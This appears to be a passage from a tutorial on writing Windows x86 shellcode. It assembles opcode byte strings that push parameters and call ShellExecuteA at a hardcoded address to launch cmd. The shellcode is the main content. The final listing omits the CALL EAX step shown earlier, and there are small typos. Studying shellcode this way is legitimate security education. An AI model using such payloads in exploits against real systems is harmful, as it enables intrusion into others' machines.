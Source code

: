 - Pushing The Parameters
Other than string we still need to pass four other parameters to the function: three of them are 0 while one is 3.

We have to push them in reverse order, in order to make the right stack. We will have to push 3 first, two zeros, our strings (*cmd* and *open*), and at the end, another zero.

We have many different ways t o push the integer value 3 to the stack. We can directly execute a **PUSH 3** instruction, but we can also move the value into a register and then push the register itself.

We could also zero out a register and then the register 3 times, before pushing it to the stack. In our case, we will simply **PUSH** it to stack with the following instruction:
```
"\x6A\x03"            // PUSH 3
```

Now we have to push two zeros into the stack. To do this, we will zero out the **EAX** register, and then we will push it two times. The code will be the following:
```
"\x33\xC0"      // xor eax, eax
"\x50"          // PUSH EAX => pushes 0
"\x50"          // PUSH EAX => pushes 0
```

Now its time to push the strings.
```
"\x53"          // PUSH EBX
"\x51"          // PUSH ECX
```

Then we push the first parameter : 0
```
"\x50"          // PUSH EAX => pushes 0
```

All the parameters have been pushed in the correct order. We need to find and push the address of the *ShellExecuteA* function and then call it.

In order to find the address, you can use *arwin*
```
C:\>arwin.exe Shell32.dll ShellExecuteA

ShellexecuteeA is located at 0x762bd970 in Shell32.dll
```

We need to move this address to a register and then call it
```
"\xB8\x70\xD9\x2B\x76" // MOV EAX,762bd970
"\xFF\xD0"            // CALL EAX
```

- Putting it all together
`ShellExecute(0,"open,"cmd", NULL,0,SW_MAXIMIZE);`

```
"\x68\x63\x6d\x64\x00"   // PUSH "cmd"
"\x8B\xDC"               // MOV EBX, ESP
"\x6A\x00"               // Terminates "open"
"\x68\x6f\x70\x65\x6e"   // PUSH "open"
"\x8B\xCC"               // MOV ECX, ESP

"\x6A\x03"               // PUSH 3
"\x33\xC0"               // xor eax, eax
"\x50"                   // PUSH EAX => pushes 0
"\x50"                   // PUSH EAX => pushes 0
"\x53"                   // PUSH EBX
"\x51"                   // PUSH ECX
"\x50"                   // PUSH EAX => pushes 0

"\xB8\x70\xD9\x2B\x76" // MOV EAX,762bd970
```